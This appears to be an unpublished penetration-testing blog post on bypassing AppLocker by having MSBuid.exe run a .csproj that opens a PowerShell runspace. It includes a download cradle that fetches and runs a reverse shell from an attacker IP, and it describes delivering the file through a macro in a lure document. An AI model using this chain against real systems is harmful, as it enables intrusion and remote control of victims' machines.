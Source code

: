 ```yaml
---
layout: post
title: Multi-Stage MSBuild AppLocker Bypass
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png)

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only _known good_ applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png)

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png)

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C#, in order to instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith builds upon Jared Atkinson's And Justin Warner's work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

We will have the runspace download and execute our PowerShell reverse shell:

```pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");  // powershell 3.0+ download cradle```

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk In order for the user to execute the macro the document needs to be dressed appropriately. (John Lambert...)

https://pbs.twimg.com/media/DWHHdvJV4AAvl22.jpg


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


